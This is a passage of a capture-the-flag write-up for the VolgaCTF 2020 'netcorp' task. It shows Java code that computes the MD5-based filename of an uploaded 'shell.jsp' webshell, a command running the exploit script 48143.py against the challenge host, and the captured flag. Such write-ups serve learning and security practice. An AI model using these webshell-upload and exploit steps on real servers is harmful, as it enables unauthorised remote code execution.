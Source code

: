 ```
```

*Why I use `$@|sh` read here: https://codewhitesec.blogspot.com/2015/03/sh-or-getting-shell-environment-from.html*

After we send it, we have to get a new filename.

Execute the following java code:
```
import java.security.NoSuchAlgorithmException;
import java.math.BigInteger;
import java.security.MessageDigest;

public class HelloWorld{

     public static void main(String []args){
        System.out.println(generateFileName("shell.jsp"));
     }
     
     public static String generateFileName(final String fileName) {
        try {
            final MessageDigest md = MessageDigest.getInstance("MD5");
            md.update(fileName.getBytes());
            final byte[] digest = md.digest();
            final String s2 = new BigInteger(1, digest).toString(16);
            final StringBuilder sb = new StringBuilder(32);
            for (int i = 0, count = 32 - s2.length(); i < count; ++i) {
                sb.append("0");
            }
            return sb.append(s2).toString();
        }
        catch (NoSuchAlgorithmException e) {
            e.printStackTrace();
            return "Error";
        }
    }
}
```

Result:
```
797cc99954a3c1a3dddeed68bb4377af
```

To execute the code we need to change our exploit and add an extension to route in `48143.py`.

New route: `/asdf.jsp`

Execute exploit:
```
python 48143.py -f "/uploads/797cc99954a3c1a3dddeed68bb4377af" netcorp.q.2020.volgactf.ru
```

Result:
```
VolgaCTF{qualification_unites_and_real_awesome_nothing_though_i_need_else}
```